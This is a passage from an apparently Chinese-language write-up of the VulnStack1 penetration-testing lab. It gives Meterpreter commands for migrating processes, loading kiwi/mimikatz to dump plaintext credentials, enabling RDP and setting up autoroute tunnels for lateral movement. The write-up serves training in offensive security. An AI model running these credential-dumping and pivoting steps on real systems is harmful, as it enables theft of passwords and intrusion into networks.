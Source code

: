 ```
1156  488   spoolsv.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
************************************************************************************************************
************************************************************************************************************
```

这里 ```migrate 964``` 迁移到 64 位的 cmd.exe 上

再执行 ```load mimikatz``` 命令
```shell
load kiwi
```
注意事项：
1. 32位系统直接加载模块，然后使用命令 ```mimikatz_command -f sekurlsa::searchPasswords```
2. 64位系统先迁移 meterpreter 到 64 位的进程中，再加载模块

![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_15.png)

发现报错，显示 ```mimikatz``` 已经被 ```kiwi``` 取代

（2）换成加载 kiwi 模块
注意事项：64 位系统时候，也需要先迁移到 64 位的进程中，再加载模块

迁移后，执行 ```load kiwi``` 命令加载，然后 ```creds_all```
```shell
load kiwi
creds_all
```

![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_16.png)

可以看到已经成功得到明文密码

### 开启 3389 端口

3389 端口是 Windows Server 系统远程桌面的服务端口

```shell
run post/windows/manage/enable_rdp
```

再用 nmap 扫描一下，可以看到确实是开放了 3389 端口
![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_17.png)

## 横向移动

### 搭建隧道

隧道是一种绕过端口屏蔽的通信方式。
这里使用 msf + proxychains 进行搭建

用msf直接搭建sock隧道
进入session，自动创建路由
```shell
run post/multi/manage/autoroute
```
![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_18.png)
